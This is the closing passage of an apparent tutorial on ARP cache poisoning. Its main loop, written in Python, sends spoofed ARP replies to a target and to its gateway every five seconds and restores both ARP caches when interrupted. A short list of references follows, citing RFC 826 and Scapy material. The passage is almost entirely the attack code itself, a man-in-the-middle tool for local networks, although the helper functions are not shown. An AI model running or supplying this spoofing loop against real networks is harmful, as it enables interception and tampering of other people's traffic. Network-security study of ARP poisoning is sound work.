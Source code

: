```python
    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()
    
    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```

# Referências
1. [RFC 826](https://web.archive.org/web/20041204044506/http://www.ietf.org/rfc/rfc826.txt)
2. [ARP Cache Poisoning using Scapy](https://medium.com/datadriveninvestor/arp-cache-poisoning-using-scapy-d6711ecbe112)
3. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/usage.html)
